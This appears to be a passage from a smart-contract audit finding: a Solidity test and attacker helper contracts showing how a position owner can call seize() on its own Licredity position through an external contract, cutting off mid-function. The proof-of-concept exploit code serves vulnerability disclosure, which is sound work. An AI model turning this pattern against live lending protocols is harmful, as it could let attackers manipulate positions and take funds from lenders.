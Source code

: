 ```solidity
function test_seize_ownPosition_using_external_contract() public {
    // 1) Prepare environment: create a big position so protocol has liquidity (test setup)
    uint256 positionId = licredityRouter.open();
    token.mint(address(this), 10 ether);
    token.approve(address(licredityRouter), 10 ether);
    licredityRouter.depositFungible(positionId, Fungible.wrap(address(token)), 10 ether);

    // add debt to have lenders/totalDebt state set up (helper)
    uint128 borrowAmount = 9 ether;
    (uint256 totalShares, uint256 totalAssets) = licredity.getTotalDebt();
    uint256 delta = borrowAmount.toShares(totalAssets, totalShares);
    licredityRouterHelper.addDebt(positionId, delta, address(1));

    // 2) Attacker deploys helper contracts
    AttackerSeizer seizer = new AttackerSeizer(licredity);
    AttackerRouter attackerRouter = new AttackerRouter(licredity, token, seizer);

    // 3) Attack: single call that opens a new position, borrows inside the unlock callback,
    //    and uses external seizer to call seize() (msg.sender != position.owner)
    attackerRouter.depositFungible(0.5 ether);
}
```

### AttackerSeizer (minimal seizer contract)

```solidity
contract AttackerSeizer {
    Licredity public licredity;

    constructor(Licredity _licredity) {
        licredity = _licredity;
    }

    // simply forwards to Licredity.seize; msg.sender inside Licredity becomes AttackerSeizer
    function seize(uint256 positionId) external {
        licredity.seize(positionId, msg.sender);
    }
}
```

### AttackerRouter (position owner + unlock callback)

```solidity
contract AttackerRouter {
    Licredity public licredity;
    BaseERC20Mock public token;
    AttackerSeizer public seizer;

    constructor(Licredity _licredity, BaseERC20Mock _token, AttackerSeizer _seizer) {
        licredity = _licredity;
        token = _token;
        seizer = _seizer;
    }

    // Entry point used in the test. Opens a position, deposits collateral,
    // then calls unlock(data) which triggers unlockCallback() below.
    function depositFungible(uint256 amount) external {
        uint256 positionId = licredity.open();

        licredity.stageFungible(Fungible.wrap(address(token)));
        token.mint(address(licredity), amount);
        licredity.depositFungible(positionId);

```